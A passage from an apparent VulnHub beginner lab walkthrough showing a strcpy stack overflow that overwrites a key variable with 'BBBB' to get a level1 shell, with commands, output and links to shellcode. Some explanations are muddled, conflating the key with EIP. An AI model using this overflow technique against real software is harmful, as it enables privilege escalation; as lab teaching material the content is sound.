 ```C
    if(key == 0x42424242) {
        execve("/bin/sh", 0, 0);
    }
    else {
        printf("%s\n", "Sorry try again...");
    }

    return 0;
}
```
A `strcpy()` function is used to obtain the user input and store it in the `buf` array. However, since the `strcpy()` function is actually problematic, it will continue to copy information infinitely to the stack therefore overflowing it.

The output of the program would also display what is the value of the `EIP` register. This is rather a bonus of an easier representation of how the `EIP` register would look in a debugger.

Provide the program with 32 "A" <code>./levelOne AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</code>
The following output should be displayed:

```shell
level0@kali:~$ ./levelOne AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Buf is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Key is: 0x12345600
Sorry try again...
```

The "**key**" value is `0x12345600` and is not what the program expects which should be `0x42424242`. Let's provide 4 more "A".

```shell
level0@kali:~$ ./levelOne AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Buf is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Key is: 0x41414141
Sorry try again...
```

Now the key shows a result of **AAAA** which the `EIP` is pointing at. If the 4 "A"s are replaced with "B"s, the `key` variable would be equal to if statement in the code and a shell would be dropped as `level1` user.

```bash
level0@kali:~$ ./levelOne AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Buf is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Key is: 0x42424242
$ id
uid=1001(level1) gid=1000(level0) groups=1000(level0)
$ cat /home/level1/level1.txt
d13e3e4d[REDACTED]
```

# Level 1 -> Level 2:

A quite use python script [gdb-peda][2] will be used throughtout this walkthrough and it intergrates with `gdb`. Finding possible `jmp` addresses in the binaries would be simpler using gdb-peda.


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>